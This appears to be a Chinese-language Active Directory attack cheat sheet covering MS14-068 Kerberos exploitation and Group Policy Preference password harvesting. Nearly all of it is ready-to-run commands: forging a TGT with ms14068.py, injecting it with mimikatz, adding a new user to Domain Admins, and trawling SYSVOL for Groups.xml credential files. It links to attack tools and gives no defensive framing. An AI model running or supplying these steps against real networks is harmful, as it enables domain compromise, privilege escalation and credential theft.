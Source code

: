 ### ms14-068 Kerberos 漏洞利用：

生成 TGT：用于伪造

> whoami /all  获得：用户@ 域名、用户 sid、域主机

> python ms14068.py -u admin@xxx.com -p password -s sid -d dc.xxx.com
>
> ms14068.exe -u admin@xxx.com -p password -s sid -d dc.xxx.com

会生成 TGT_admin@xxx.com.ccache

注入 TGT：

> klist
>
> klist purge 清除所有凭证，等一会在执行下列命令

写入内存:

> mimikatz.exe "kerberos::ptc c:\TGT_admin@xxx.com.ccache" 

若成功

> dir \\dc.xxx.com\c$
>
> net user admin xxxxx@password /add /domain
>
> net group "Domain Admins" admin /add /domain

msf 的模块 ``ms14_048_kerberos_checksum`` 也可以检测

工具：

> https://www.t00ls.net/viewthread.php?tid=28207&from=favorites
>
> https://github.com/gentilkiwi/kekeo

### GPP 漏洞利用

win2008 增加，一般域用户都可访问敏感文件

密码存在 SYSCOL 目录下:

Groups.xml, 这个文件是域管通过 GPP 设置或修改本地密码留下的

> Services\Services.xml,
>
> ScheduledTasks\ScheduledTasks.xml,
>
> Printers\Printers.xml,
>
> Drives\Drives.xml,
>
> DataSources\DataSources.xml

> net use \\\域控(如pc.xx.com) password /user:xxx.com\username 
>
> dir \\\域控\SYSVOL /s /a > sysvol.txt
>
> findstr /i "groups.xml" sysvol.txt
